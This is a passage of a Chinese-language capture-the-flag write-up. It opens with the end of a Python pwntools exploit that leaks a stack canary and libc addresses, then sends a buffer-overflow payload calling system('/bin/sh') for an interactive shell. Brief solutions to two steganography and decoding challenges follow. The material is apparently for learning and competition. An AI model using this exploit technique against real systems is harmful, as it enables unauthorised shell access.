 ```python
    r.recvuntil("login!")
    data = r.recvuntil("\n")
    data = data.replace("\n", "")
    return data

canary = int(leak_canary(),16)
print "[*] canary:{0}".format(hex(canary))

printf_got = 0x0804B010
leak_data = leak(printf_got)
printf_addr = u32(leak_data[0:4])
fflush_addr = u32(leak_data[4:8])
print "[*] printf:{0}".format(hex(printf_addr))
print "[*] fflush:{0}".format(hex(fflush_addr))
libc = ELF("./libc.so.6")
libc_base = printf_addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = next(libc.search("/bin/sh")) + libc_base
#attach()
r.recvuntil("you?\n")
r.sendline("admin2017")
r.recvuntil("commands.")
r.sendline("add")
r.recvuntil("APP/Site: ")
r.sendline("a"*0x31)
r.recvuntil("Username: ")
r.sendline("b"*0x1d)
r.recvuntil("Password: ")
payload = "a"*30
payload += p32(canary)
payload += "a"*0xc
payload += p32(system_addr)
payload += p32(sh_addr)
payload += p32(sh_addr)
r.sendline(payload)

r.interactive()
```

# Misc1 一维码
首先，从图片中进行 `LSB` 提取，能获取一个 `ELF` 文件。

![](http://oayoilchh.bkt.clouddn.com/17-4-16/76519164-file_1492348397533_13ebf.png)

又因为之前扫码得知一个针对可执行文件的隐写工具hydan，通过这个就能得到flag了。

# Misc3乾坤
在数据包导出http对象，里面有2个zip包（在linux下可以看得清楚），解压后一个是flag.exe另一个是encode.py，encode.py是把flag进行多次b64替换并做处理，而flag.exe在最后面附带了密文，编写decode.py即可
